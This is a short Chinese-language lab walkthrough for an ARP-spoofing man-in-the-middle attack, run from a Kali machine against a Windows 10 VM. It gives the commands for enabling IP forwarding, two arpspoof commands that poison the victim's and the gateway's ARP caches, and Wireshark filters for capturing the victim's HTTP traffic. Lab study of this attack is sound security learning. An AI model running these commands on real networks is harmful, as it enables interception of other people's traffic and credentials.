 攻击机：kali2019_x64_en-us  
受害机：win10_pro_x64_zh-chs_commando  

用到的软件：  
0：arpspoof（kali中自带）  
1：wireshark（kali中自带）  

攻击机下：  
0：cat /proc/sys/net/ipv4/ip_forward # 查看是否开启ipv4的包转发，0为关闭，1为开启  

1：echo 1 > /proc/sys/net/ipv4/ip_forward # 开启ipv4的包转发  

2：修改文件/etc/sysctl.conf，取消注释net.ipv4.ip_forward=1这行 # 永久开启ipv4的包转发  

3：ifconfig -a # 查看当前网卡名称  

4：arpspoof -i eth0 -t 172.16.35.133 172.16.35.2 # 172.16.35.133是受害机的ip，172.16.35.2是网关ip，让受害机（172.16.35.133）以为网关（172.16.35.2）是我

5：arpspoof -i eth0 -t 172.16.35.2 172.16.35.133 # 这条命令中将受害者ip和网关ip互换，让网关（172.16.35.2）以为受害机（172.16.35.133）是我  

6：让子弹飞一会（让mac欺骗的流量跑一会）  

7：打开并启动wireshark后，设置过滤器为http and ip.addr==111.26.219.37 # 其中111.26.219.37为受害机访问的网站，注意这里是双等号不是单等号  

8：wireshark过滤器总结  
http and ip.addr==111.26.219.37 and tcp.port==9090  

受害机下：  
0：访问目标网站  
